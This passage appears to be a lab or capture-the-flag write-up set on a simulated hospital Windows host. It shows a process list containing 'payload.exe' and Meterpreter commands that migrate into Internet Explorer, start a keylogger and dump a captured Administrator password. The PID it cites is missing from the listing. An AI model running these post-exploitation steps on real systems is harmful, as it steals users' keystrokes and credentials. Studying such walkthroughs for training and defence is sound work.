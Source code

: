 ```shell
 2592  6368  IEDriverServer.exe       x86   1        HOSPITAL\drbrown  C:\Users\drbrown.HOSPITAL\.cache\selenium\IEDriverServer\win32\4.14.0\IEDriverServer.exe
 5204  900   wsmprovhost.exe          x64   0        HOSPITAL\drbrown  C:\Windows\System32\wsmprovhost.exe
 6220  2504  conhost.exe              x64   1        HOSPITAL\drbrown  C:\Windows\System32\conhost.exe
 6368  2504  python.exe               x64   1        HOSPITAL\drbrown  C:\Program Files\Python312\python.exe
 6924  656   svchost.exe              x64   1        HOSPITAL\drbrown  C:\Windows\System32\svchost.exe
 6932  656   svchost.exe              x64   1        HOSPITAL\drbrown  C:\Windows\System32\svchost.exe
 6948  2088  sihost.exe               x64   1        HOSPITAL\drbrown  C:\Windows\System32\sihost.exe
 7212  900   ShellExperienceHost.exe  x64   1        HOSPITAL\drbrown  C:\Windows\SystemApps\ShellExperienceHost_cw5n1h2txyewy\ShellExperienceHost.exe
 7324  900   SearchUI.exe             x64   1        HOSPITAL\drbrown  C:\Windows\SystemApps\Microsoft.Windows.Cortana_cw5n1h2txyewy\SearchUI.exe
 7412  900   RuntimeBroker.exe        x64   1        HOSPITAL\drbrown  C:\Windows\System32\RuntimeBroker.exe
 7484  900   RuntimeBroker.exe        x64   1        HOSPITAL\drbrown  C:\Windows\System32\RuntimeBroker.exe
 7996  900   RuntimeBroker.exe        x64   1        HOSPITAL\drbrown  C:\Windows\System32\RuntimeBroker.exe
 8160  1008  vmtoolsd.exe             x64   1        HOSPITAL\drbrown  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 8768  5204  payload.exe              x64   0        HOSPITAL\drbrown  C:\Users\drbrown.HOSPITAL\Documents\payload.exe
 ```

We see an iexplorer.exe process that Dr Brown uses. This will be interesting to look at. We try to run keylogger and see if we can get anything interesting.

First we must migrate to the 64-bit iexplore.exe process, in this case PID 1088.

```shell
meterpreter > migrate 1088
[*] Migrating from 8420 to 1088...
[*] Migration completed successfully.
meterpreter >
```

From here we take screenshot with `screengrab` or keyscan by `keyscan_start`.

```shell
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter >
```

We now dump the scan result with `keyscan_dump`. Better wait some time for meaningful output.

It will give us Administrator and a string looking like a password.

```shell
meterpreter > keyscan_dump
Dumping captured keystrokes...
Administrator[OMITTED]
```
